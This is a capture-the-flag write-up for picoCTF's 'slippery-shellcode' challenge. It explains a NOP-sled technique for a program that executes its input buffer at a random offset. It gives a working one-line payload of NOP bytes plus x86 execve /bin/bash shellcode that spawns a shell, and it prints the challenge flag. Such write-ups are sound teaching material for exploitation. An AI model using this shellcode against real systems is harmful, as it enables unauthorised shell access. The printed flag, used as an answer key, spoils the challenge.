 # slippery-shellcode
This [program](vuln) is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_4_64839254839978b32eb661ca92071d48 on the shell server. [Source](vuln).

## Hint
None

## Solution
Like the handy-shellcode challenge, this program executes the input we send, however, it does it in a more interesting way:
```c
  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();
```
It assigns a random "offset" from 1 to 256, adds that to the location of the beginning of the buffer, and executes it from there. This means it will execute the shellcode we pass in from a random location: anywhere between 1 to 256 bytes from the beginning. However, we can fill in the beginning of the buffer with 256 bytes of NOP characters (\x90), or any opcodes really that don't mess with the actual shellcode. This allows us to bypass the random executing of our buffer, as the program will always hit one of the 256 nop characters, "slide down" these nop's and hit our shellcode no matter what. We then keep the pipe open with `cat -` like before. Thus our payload looks like this (shellcode from http://shell-storm.org/shellcode/files/shellcode-606.php):
```(python -c "print '\x90'*256+'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'"; cat -)|  ./vuln```
## Details
Completed: *During competition*  
Points: **200**  
Done by: Cyril  
Flag: `picoCTF{sl1pp3ry_sh311c0d3_3d79d4df}`
